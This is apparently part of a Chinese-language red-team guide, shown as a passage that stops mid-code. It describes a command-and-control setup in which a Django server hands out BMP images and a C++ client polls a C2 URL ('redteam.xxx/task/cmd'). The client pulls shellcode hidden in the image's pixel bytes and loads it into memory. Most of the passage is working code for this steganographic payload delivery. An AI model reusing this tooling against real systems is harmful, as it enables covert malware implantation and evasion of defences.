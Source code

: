 ```
# 获取appid对应的图片
class Tasktext(View):
    def get(self, request):
        UUIDreuslt = request.GET.get("appid")
        filename = UUIDreuslt + ".bmp"
        filedir = os.path.join(os.getcwd(), 'images', filename)
        if not os.path.exists(filedir):
            return HttpResponse(status=404)
        else:
            filedir_tmp = UUIDreuslt + "_" + str(random.randint(1, 100)) + ".bmp"
            temp_bmp = os.path.join(os.getcwd(), 'images', filedir_tmp)
            photo = open(filedir, 'rb')
            photo2 = open(temp_bmp, 'wb')
            photo2.write(photo.read())
            photo.close()
            photo2.close()

            os.remove(filedir)
            q = models.Message.objects.get(UUIDreuslt=UUIDreuslt)
            print(q.id)
            models.Message.objects.filter(id=q.id).update(cscscs=filedir)
            return FileResponse(open(temp_bmp, 'rb'), content_type='*/*')
```

4.clinet端循环监听请求对应的图片读取解析图片位移获取shellcode并内存加载上线c2 http://redteam.xxx/task/cmd?uuid=41303000200-0400-0500-0006-000700080009

```
    DWORD dwStatusCodeReturn = 0;
    while (dwStatusCodeReturn != 200)
    {

       resultStr = webhttp(fullUrlPath, &dwStatusCodeReturn);
       if (dwStatusCodeReturn == 200)
       {
         cout << "exit" << endl;
       }
       cout << "请求失败：" << dwStatusCodeReturn << endl;
       ::Sleep(60 * 1000 * 3);

    }

#位移处理图片中的shelllcode

    std::wstring rightPart = GetRightStr(Url, L"?");
    std::wstring wcs = rightPart.c_str();
    size_t wcsPos = wcs.find(L"appid");
    if (wcsPos != string::npos && dwStatusCode == 200) {
       BITMAPFILEHEADER *pHdr = (BITMAPFILEHEADER *)pBuffer;
       LPBYTE pStr = pBuffer + pHdr->bfOffBits + 3;
       char szTmp[5000];
       RtlZeroMemory(szTmp, 5000);
       for (int i = 0; i < 5000; i++)
       {
         if (*pStr == 0 || *pStr == 0xFF)
         {
          break;
         }
         szTmp<i> = *pStr;
         pStr += 4;
       }
       printf_s(szTmp);
       unsigned int char_in_hex;

```